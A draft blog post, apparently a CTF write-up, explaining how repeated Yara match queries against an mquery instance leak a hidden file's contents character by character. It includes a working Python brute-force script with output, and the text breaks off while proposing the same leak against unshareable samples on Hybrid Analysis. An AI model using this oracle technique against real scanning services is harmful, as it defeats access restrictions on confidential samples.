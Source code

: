 ```yaml
---
title: Using Yara to Leak Sensitive Data
author: Megabeets
type: post
date: -001-11-30T00:00:00+00:00
draft: true
url: /?p=1700
categories:
  - Uncategorized

---
```

During CONFidence Teaser CTF, one specific task caught my interest. Not because it was hard or complicated &#8211; it wasn&#8217;t, but because the concept behind it was interesting and relevant to my day-to-day work as a malware researcher. 

In this short article, I will show a **highly esoteric**, not to say **trivial**, concept in which you can leak the content of &#8220;sensitive&#8221; files on systems where scanning the files with Yara is allowed, but downloading the files is not possible. Not only that I&#8217;ll show how it was used, as an **intended solution**, to solve the &#8220;Hidden Flag&#8221; challenge on the CTF, but will also demonstrate how it can be used to retrieve the data of TLP;RED, or un-downloadable files on premium services such as Hybrid-Analysis, where the major limitation is the bandwidth.

Let&#8217;s not move too fast and start from the beginning, the CTF challenge. On &#8220;Hidden-Flag&#8221;, the most solved challenge in this CTF, we are given an online instance of [mquery][1], a &#8220;YARA malware query accelerator&#8221;. In other words, the system lets you run your Yara rules on a repository of files, very fast. The flag, as it seems, exists in the content of a file found in the corpus of files that are indexed and scanned by _mquery_. As a malware researcher, and as a [cert.pl][2] old fanboy, I was already familiar with _mquery_ and experienced with using it. 

The initial idea was to extract the flag using boolean queries of Yara rules. To prove that this concept really works, I started from this sample rule:

```
rule test {
  strings:
    $flag = "p4{"
  condition:
    $flag
}
```


&#8220;p4{&#8221; is the known prefix for flags in this CTF, and indeed, this simple rule showed that the concept is potentially possible and we can now start slowly retrieving the flag. <figure class="wp-block-image size-large">

<img src="../uploads/mquery-screenshot.png" /> </figure> 

In order to retrieve the rest of the flag, we can slowly &#8220;brute force&#8221; it character by character, hoping there will not be any &#8220;brute force&#8221; mitigation or similar limitation. Since I am familiar with the project, I know it has a REST API we can use for our help. For those of you who weren&#8217;t familiar with _mquery_ before, it can be figured out from the [tests][3].

And indeed, we can quickly write a script to brute force the flag, character by character.

```
import string
import requests

QUERY_URL = "http://hidden.zajebistyc.tf/api/query/high"
MATCHES_URL = "http://hidden.zajebistyc.tf/api/matches/{}?offset=0&limit=50"

def request_query (query):
    res = requests.post(QUERY_URL, json={"method": "query", "raw_yara": query})
    res.raise_for_status()
    query_hash = res.json()["query_hash"]
    res = requests.get(MATCHES_URL.format(query_hash))
    if res.json()["job"]["status"] == "done":
        return res


# Define a rule tempplate

test_yara = """
rule find_flag {{
    strings:
        $flag = "{0}"
    condition:
        $flag
}}
"""

# Generate a list of potential characters
potential_chars = "-_}"+string.ascii_lowercase+string.digits+string.ascii_uppercase+"@!"  

# Start from the known prefix of the flag

flag = "p4{"

while True:
    print("[+] Found:",flag)
    for c in potential_chars:
        res = request_query(test_yara.format(flag + c))
        if len(res.json()["matches"]) > 0:
            flag += c
            break
    if c == "}":
        break

print("[+] Flag:", flag)

# flag is "p4{ind3x1ng-l3ak5}"
```


Let&#8217;s run the script and see the results come quickly:

```
$ python3 solution.py

[+] Found: p4{
[+] Found: p4{i
[+] Found: p4{in
[+] Found: p4{ind
[+] Found: p4{ind3
[+] Found: p4{ind3x
[+] Found: p4{ind3x1
[+] Found: p4{ind3x1n
[+] Found: p4{ind3x1ng
[+] Found: p4{ind3x1ng-
[+] Found: p4{ind3x1ng-l
[+] Found: p4{ind3x1ng-l3
[+] Found: p4{ind3x1ng-l3a
[+] Found: p4{ind3x1ng-l3ak
[+] Found: p4{ind3x1ng-l3ak5
[+] Flag: p4{ind3x1ng-l3ak5}

```


### Real-life implications

While this CTF challenge wasn&#8217;t the hardest, to say the least, it indeed shows an interesting concept. For a desperate and motivated-enough person, it is possible to leak some data that wasn&#8217;t meant to be shared with them. But to make this happen, it requires a very niche set-up in which file storage can be scanned with Yara (or any other scanning engine) but some or all the files cannot be downloaded. Esoteric as it sounds, it can happen. The fact is, that this is the exact situation that Cert Polska is dealing with and on which the aforementioned challenge is based. Having a TLP;RED samples in their repository prevents the Polish Cert to publicly open their own _mquery_ instance to the public or other organizations. Having access to such Yara scanning engine on a repository with unshareable samples is a risk they refuse to take. `mquery` is not the only platform to let you scan files using Yara, there are more &#8211; some of them are even commercial.

### Hybrid Analysis

CrowdStrike&#8217;s Hybrid-Analysis is a free automated malware analysis service. Its main feature is a very popular sandbox that is commonly used by the community. Community members upload samples to the platform, and the samples being analyzed in the sandbox. The user are choosing whether they wan to share the binary sample with the community or not. If they choose not to, the analysis of the file is still available to the community, so is the meta-data of the file. The sample itself, of course, is marked as unshareable and cannot be accessed by the community. Finding such &#8220;not-for-share&#8221; files is very easy because Hybrid Analysis highlights these files and marks them visibly.

One of the less-familiar features of Hybrid Analysis is their super-fast Yara scanner. It lets the users the ability to &#8220;Hunt samples matching YARA rules at the byte level.&#8221;. Essentially, users can create their Yara rule and scan it on the entire sample repository of one of the most popular malware analysis services out there. You see where I&#8217;m going at, right? If some samples are not shared publicly, but we do have their metadata, including their hash and some strings from them, we can easily start leaking the entire binary, or parts of it as we wish. Adding that to the fact that Hybrid Analysis&#8217; Yara scanner is very fast, we can run a Yara query 



<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: https://github.com/CERT-Polska/mquery
 [2]: https://www.cert.pl/en/
 [3]: https://github.com/CERT-Polska/mquery/blob/master/src/tests/test_api.py